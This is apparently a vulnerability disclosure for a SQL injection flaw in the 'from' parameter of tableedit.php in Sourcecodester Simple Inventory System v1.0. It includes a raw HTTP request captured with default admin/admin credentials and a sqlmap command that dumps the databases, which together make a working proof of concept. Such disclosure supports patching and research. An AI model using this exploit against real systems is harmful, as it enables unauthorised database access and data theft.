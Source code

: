 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：tableedit.php

injection parameter:$_POST['from']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the from parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through error-based injection.

![image-20240517161740724](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-3.assets/image-20240517161740724.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /tableedit.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

from=2024-05-15&to=2024-05-16
```

python .\sqlmap.py -r .\1.txt --batch --dbs

![image-20240517161559656](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Inventory System Sql Inject-3.assets/image-20240517161559656.png)
